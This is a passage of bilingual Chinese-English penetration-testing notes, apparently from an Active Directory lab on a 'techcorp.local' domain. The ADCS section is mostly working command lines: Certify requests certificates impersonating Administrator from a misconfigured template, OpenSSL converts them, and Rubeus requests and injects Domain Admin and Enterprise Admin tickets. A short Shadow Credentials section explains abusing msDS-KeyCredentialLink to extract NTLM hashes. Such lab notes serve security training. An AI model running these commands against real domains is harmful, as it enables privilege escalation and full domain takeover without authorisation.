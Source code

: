 ## 为DA申请证书
```
C:\AD\Tools\Certify.exe request /ca:Techcorp-DC.techcorp.local\TECHCORP-DC-CA /template:ForAdminsofPrivilegedAccessWorkstations /altname:Administrator
```

pfx转换成pem证书
```
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\DA.pfx
```

请求DA tgt,并且注入到当前进程
```
C:\AD\Tools\Rubeus.exe asktgt /user:Administrator /certificate:C:\AD\Tools\DA.pfx /password:SecretPass@123 /nowrap /ptt
```

## 为EA申请证书

```
C:\AD\Tools\Certify.exe request /ca:Techcorp-DC.techcorp.local\TECHCORP-DC-CA /template:ForAdminsofPrivilegedAccessWorkstations /altname:Administrator
```
pfx转换成pem证书
```
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\EA.pfx
```

请求EA tgt,并且注入到当前进程
```
C:\AD\Tools\Rubeus.exe asktgt /user:techcorp.local\Administrator /dc:techcorp-dc.techcorp.local /certificate:C:\AD\Tools\EA.pfx /password:SecretPass@123 /nowrap /ptt
```


# Shadow Credentials

## 是什么？

• Users and Computers have msDS-KeyCredentialLink attribute that contains the raw public keys of certificate that can be used as an alternate credential.（用户和计算机有msDS-KeyCredentialLink属性，该属性包含可用作替代凭证的证书的原始公钥。）
• This attribute is used when we configure Windows Hello for Business (WHfB)（这个属性在我们配置Windows Hello for Business（WHFB）时使用）
• By default, Key Admins and Enterprise Key Admins have rights to modify the msDS-KeyCredentialLink attribute.（默认情况下，密钥管理员和企业密钥管理员有权利修改msDS-KeyCredentialLink属性。）


## 利用条件
• User to User (U2U) Service Ticket can be requested to decrypt the encrypted NTLM_SUPPLEMENTAL_CREDENTIAL entity from Privilege Attribute Certificate (PAC) and extract NTLM hash.（可以请求用户对用户（U2U）服务票，从特权属性证书（PAC）中解密加密的NTLM_SUPPLEMENTAL_CREDENTIAL实体，并提取NTLM哈希。）
